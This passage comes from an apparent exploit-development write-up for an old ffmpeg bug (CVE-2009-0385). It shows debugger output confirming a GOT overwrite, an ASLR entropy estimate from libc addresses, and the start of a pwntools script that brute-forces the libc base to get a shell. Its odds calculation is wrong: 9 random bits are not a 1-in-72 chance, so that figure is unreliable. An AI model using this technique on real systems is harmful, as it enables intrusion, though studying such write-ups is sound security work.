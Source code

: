 ```
[#7] 0x807c983 → Name: parse_options(argc=0x3, argv=0xffffd584, options=0x83f5560 <options>, parse_arg_function=0x807a3e0 <opt_output_file>)
[#8] 0x8073326 → Name: main(argc=0x3, argv=0xffffd584)
────────────────────────────────────────────────────────────────────────
gef➤  x/xw 0x84ef134
0x84ef134 <posix_memalign@got.plt>:     0xffffffff
gef➤
```

Great! Looks like we've confirmed that we can alter code execution. Now let's try and pop a shell while bypassing DEP and ASLR!

## Bypassing ASLR

There are a few well known ways to bypass ASLR including information leaks and with 32 bit binaries; brute force. The number of random bits in a 32 bit address space on Ubuntu 16.04 can be calculated as follows:

```
run#1:
0xf7da4000 0xf7f54000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so

run#2:
0xf7d23000 0xf7ed3000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so

run#3:
0xf7cdd000 0xf7e8d000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so

run#4:
0xf7d3e000 0xf7eee000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so

gef➤  p/t 0xf7cdd000
$1 = 11110111110011011101000000000000
gef➤  p/t 0xf7d23000
$2 = 11110111110100100011000000000000
gef➤  p/t 0xf7da4000
$3 = 11110111110110100100000000000000
gef➤  p/t 0xf7d3e000
$4 = 11110111110100111110000000000000
```

There are 9 random bit, if my math is correct (9! / (9 - 2)!): i'd have a 1/72 chance of guessing correctly. Here's my proof of concept code:

```python
#!/usr/bin/python
# ffmpeg null ptr deref
# cve-2009-0385
# clampz
# a bug hunter's diary : trapkit.de

from pwn import *
import sys
import random

def randlibc():
    prefix = '11110111110'
    suffix = '000000000000'
    mid = ''
    for i in range(0, 9):
        mid += str( random.randint(0, 1) )
    return int(prefix+mid+suffix,2)

ffmpeg_path = './i686/ffmpeg/ffmpeg'

```